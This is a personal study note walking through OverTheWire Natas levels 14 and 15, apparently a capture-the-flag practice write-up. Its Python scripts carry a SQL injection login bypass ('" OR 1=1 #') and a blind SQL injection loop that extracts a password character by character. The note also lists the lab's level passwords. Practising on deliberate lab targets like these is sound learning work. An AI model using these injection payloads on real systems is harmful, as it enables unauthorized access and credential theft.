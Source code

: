 
2024-07-18 20:49

Source: #overthewire #natas #web 

Tags: [[Injection]]
## Natas 14

```
import requests
username = 'natas14'
password = 'z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ'

url = 'http://natas14.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()

response = sessions.post(url,data={ "username" : 'aaam" OR 1=1 #' , "password" : "mango"},auth = (username,password))

print(response.text)
```
here on seeing the source code we see that we have a `debug` parameter that will show us the query that is made on the DB 

`#`  - comment the rest of the query 

injecting the following in the username will give the pass
```
'anything" OR 1=1 #'
```
## Natas 15

[[BlindSQL]] 

- the anything character or the wild-card character in a SQL `like` statement is `%`
- putting `BINARY` right before the field in the Select statement we'll make that field case sensitive

```
import requests
import string
characters = string.ascii_letters + "0123456789"  

username = 'natas15'
password = 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'

url = 'http://natas15.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()
seen = list()  #initialze the empty seen password list

while (True):
    for ch in characters:
        print("trying character with password" , "".join(seen) + ch)

        response = sessions.post(url,data={ "username" : 'natas16" AND BINARY password LIKE "' + "".join(seen) + ch +'%" #'},auth = (username,password))
        
        #example. if `hWs%` returns as user exists then the password starts with `hWs....` 

        content = response.text   #crucial step to log the response.text in a variable as we will further check the "user exists" string and determine if the character is a part of the password or not 
        
        if "user exists" in content:
            seen.append(ch)
            break #break out of the for loop and start again 
```








### References
https://www.youtube.com/watch?v=krp0qCOAnFE&list=PL1H1sBF1VAKWM3wMCn6H5Ql6OrgIivt2V&index=12